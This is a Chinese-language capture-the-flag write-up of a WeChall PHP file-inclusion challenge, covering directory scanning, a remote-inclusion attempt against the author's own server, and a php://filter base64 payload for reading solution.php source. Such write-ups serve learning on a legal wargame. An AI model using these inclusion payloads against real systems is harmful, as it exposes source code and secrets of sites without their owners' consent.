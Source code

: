 ```yaml
---

categories:
- CTF
tags: 
    - web
---
```


[题目地址](http://www.wechall.net/challenge/warchall/live_lfi/index.php)
如题目所提示，是PHP文件包含漏洞。
访问给出的题目地址，网页提示“网站正在建设中”

## 扫描目录
和所有web漏洞一样，先dirbuster扫描一下
![2](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/1007/2.PNG)

---

test.php报错
 
![3](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/1007/3.PNG)
require_once()语句在脚本执行期间包含并运行指定文件
/home/level/14_live_fi/www/test.php不是一个目录，然后报错了。

>info1:网站所在目录路径： **/home/level/14_live_fi/www/**

---

## 猜解参数
猜测应该是远程文件包含remote file include，于是访问rfi.php发现页面是空白。
![5](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/1007/5.PNG)

因为看不到源码，所以只能爆破试试。
发现cmd是可能的命令参数。
`/temp/rfi.php?cmd=http://127.0.0.1:80/test.php`
![6](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/1007/6.PNG)
查看源代码，多了`<pre></pre>`这个字符串。

访问`/temp/rfi.php?cmd=http://vps的ip:888/whale.php`
![访问本地文件](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/1007/7.PNG)
远程文件包含似乎没有成功。

所以搞不懂cmd这个参数到底怎么用。

## 重新扫描
找不到线索，于是重新扫描

>info2: 整理下已知网站目录
http://lfi.warchall.net/protected/
http://lfi.warchall.net/temp/

`http://lfi.warchall.net/protected/logs/20180905_critical_details.txt`
可以分析出，log目录下，记录了来自各地的尝试文件包含的攻击记录。
![8](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/1007/8.PNG)
而这个攻击记录，则表明，文件包含使用的是require_once()这个函数
而漏洞指明了index.php 的第11行。

## 线索

![查看源码](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/1007/9.PNG)

于是我返回了index.php
![10](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/1007/10.PNG)

现在考虑一下，题目意思是什么，本地文件包含通常会泄露敏感信息。
然后下一步就是找flag了吧
![11](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/1007/11.PNG)

找不到flag所在的路径啊！好气

## writeup
[writeup](https://joizel.readthedocs.io/ko/latest/wargame/web/[wechall]%20Warchall_Live%20LFI.html)
看了一些wp，发现解题思路是这样的：solution.php因为是脚本文件，所以客户端是不能直接查看的。

要通过以下协议，将php编码一下再查看。`?lang=php://filter/convert.base64-encode/resource=solution.php"`

按照wp，这道题其实坏了，得不出flag的。有点坑。
![12](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/1007/12.PNG)



